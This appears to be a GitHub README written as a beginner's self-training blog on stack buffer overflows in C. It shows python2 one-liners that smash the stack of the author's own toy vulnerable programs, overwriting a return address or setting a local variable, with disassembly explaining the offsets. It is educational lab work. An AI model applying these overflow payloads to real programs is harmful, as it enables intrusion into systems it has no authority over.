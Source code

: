 # Security in C code

This is a self training/blog for my own learning process of security. Do not
expect expert content since I am NOT a security expert. Feel free to rise bugs
if something is wrong or you would like to explore other security attacks.
Feedback more than welcome.

## Buffer Overflow Exploit Example

This example simply exploit the buffer by smashing the stack and modifying the
return address of the function. This will be used to call some other function.
It is based on this good
[tutorial](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/) 
[theory](http://www.cis.syr.edu/~wedu/seed/Book/book_sample_buffer.pdf)


```
    $ gcc vuln.c -o vuln -m32 -O0
    $ python2 -c 'print "a"*32 + "\xb2\x84\x04\x08"' | ./vuln
```
For the case of vuln-variable

```
python2 -c 'print "a"*(4*16 +1)' | ./vuln-variable

```

This is because : 

```
 8048473:       c7 45 f4 00 00 00 00    movl   $0x0,-0xc(%ebp)
 804847a:       83 ec 0c                sub    $0xc,%esp
 804847d:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048480:       50                      push   %eax
 8048481:       e8 aa fe ff ff          call   8048330 <gets@plt>
 8048486:       83 c4 10                add    $0x10,%esp
 8048489:       8b 45 f4                mov    -0xc(%ebp),%eax
 804848c:       85 c0                   test   %eax,%eax

```

Watch this video to get the idea:
[video](https://www.youtube.com/watch?v=T03idxny9jE)


Now lets modify to an specific value : 

vuln-variable-specific.c

this wil be with : 


```
./a.out $(python2 -c 'print "a"*(4*16) +  "\x64\x63\x62\x61"')

```

because : 

```
 8048510:       8d 45 b4                lea    -0x4c(%ebp),%eax
 8048513:       50                      push   %eax
 8048514:       e8 77 fe ff ff          call   8048390 <strcpy@plt>
 8048519:       83 c4 10                add    $0x10,%esp
 804851c:       8b 45 f4                mov    -0xc(%ebp),%eax
 804851f:       3d 64 63 62 61          cmp    $0x61626364,%eax
 8048524:       75 12                   jne    8048538 <main+0x66>
```
